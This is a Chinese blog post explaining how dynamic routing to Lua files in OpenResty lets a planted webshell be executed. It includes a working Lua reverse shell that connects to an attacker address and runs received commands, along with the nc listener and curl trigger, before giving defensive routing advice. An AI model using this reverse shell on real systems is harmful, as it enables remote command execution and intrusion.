 ```yaml
---
layout:     post
title:      "OpenResty 中的安全隐患"
subtitle:   ""
date:       2017-06-05 00:00:00
author:     "ms2008"
header-img: "img/post-bg-2015.jpg"
catalog:    true
tags:
    - Lua
    - OpenResty
---
```


在 OR 的官方 GitHub 中，介绍了这么一种简单的「路由」写法
```perl
# use nginx var in code path
# CAUTION: contents in nginx var must be carefully filtered,
# otherwise there'll be great security risk!
location ~ ^/app/([-_a-zA-Z0-9/]+) {
    set $path $1;
    content_by_lua_file /path/to/lua/app/root/$path.lua;
}
```

相信不少不同学也都使用了这种简便的方式。然而却忽略了春哥的警告：
> **CAUTION: contents in nginx var must be carefully filtered, otherwise there'll be great security risk!**

这里我来说下这个安全隐患是如何产生的。假如我们现在的路由结构是：
```
root/
├── fan.lua
├── follower.lua
└── user.lua
```

正常情况下我们请求 `/app/user` 就应该执行 `root/user.lua` 代码；`/app/follower` 就应该执行 `root/follower.lua` 代码。这是我们期待的结果。

但是假如你的服务器有文件上传漏洞或 SQL 注入漏洞，被攻击者利用进而植入了一个 `shell.lua` 的 webshell，那么现在我们的路由结构是：
> SQL 注入不仅仅可以拖库，也是可以写 shell 的(SELECT OUTFILE)

```
root/
├── fan.lua
├── follower.lua
├── user.lua
└── shell.lua
```

这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹shell到攻击者的地址）：
```lua
local sock = ngx.socket.tcp()
local ok, err = sock:connect("192.168.3.5", "2333")
if not ok then return end

while true do
    local r,x = sock:receive()
    local f = assert(io.popen(r,"r"))
    local b = assert(f:read("*a"))
    sock:send(b)
end

f:close()
sock:close()
```

我先在我的攻击机上执行（准备接收反弹回来的shell）
```
nc -lvv 2333
```

开启另一个终端执行
```
curl http://victim/app/shell
```

回到 nc 查看权限：

![](/img/in-post/attacker.png)

接下来的就是去提权了。。。


要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致nginx.conf可读性较差。

我的建议是路由还是直接放在 lua 里完成，这样我们的 handler() 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化(相当于签名)的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。

------

有人说，时间是把杀猪刀。这很公平。但是，即使哪天挨上了这把杀猪刀，也希望自己是头优雅的猪。

而此时，2017 已经过去 1/2